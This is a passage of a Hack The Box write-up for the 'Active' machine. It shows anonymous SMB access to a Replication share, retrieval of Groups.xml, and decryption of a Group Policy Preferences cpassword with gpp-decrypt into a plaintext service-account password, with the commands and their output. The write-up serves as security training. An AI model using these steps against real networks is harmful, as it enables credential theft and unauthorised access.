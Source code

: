SMBMap revealed that we have read access to a non-default share called Replication.

Let’s establish a null session with smbclient and see what we can find.

```ruby
┌──(kali㉿kali)-[~/htb/machines/active]
└─$ smbclient //10.129.148.0/Replication -U '' -N
Try "help" to get a list of possible commands.
smb: \>
```

After some manual enumeration, I noticed an interesting file named “Groups.xml”, which I downloaded to my machine.

```ruby
smb: \active.htb\Policies\{31...F9}\MACHINE\Preferences\Groups\> dir
  .                                   D        0  Sat Jul 21 06:37:44 2018
  ..                                  D        0  Sat Jul 21 06:37:44 2018
  Groups.xml                          A      533  Wed Jul 18 16:46:06 2018
smb: \active.htb\Policies\{31...F9}\MACHINE\Preferences\Groups\> get Groups.xml
```

# Exploitation

The contents of this file contained “userName” and “cpassword” fields.

userName: **active.htb\SVC_TGS**

cpassword: **edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ**

![Untitled 1](https://user-images.githubusercontent.com/85040841/155660255-af62a3e3-ffa6-40c8-b986-6c29ecd0d8f9.png)

Looks like we have a set of GPP credentials. 

When a new Group Policy Preference (GPP) is created, there’s an XML file created in the SYSVOL share on a domain controller with config data that includes a username and password associated with the GPP.

For security, the password is AES-encrypted before it’s stored as `cpassword`.

However, because Microsoft publicized the AES key, we can easily decrypt the password using a tool called `gpp-decrypt`.

This type of attack corresponds to technique [T1552.006](https://attack.mitre.org/techniques/T1552/006/) in the MITRE ATT&CK framework. 

![Untitled 2](https://user-images.githubusercontent.com/85040841/155660284-a589c815-1928-4b92-8ffa-c5e3fe7d5f77.png)

```ruby
┌──(kali㉿kali)-[~/htb/machines/active]
└─$ gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
GPPstillStandingStrong2k18
```

And just like that, we have a plaintext password.
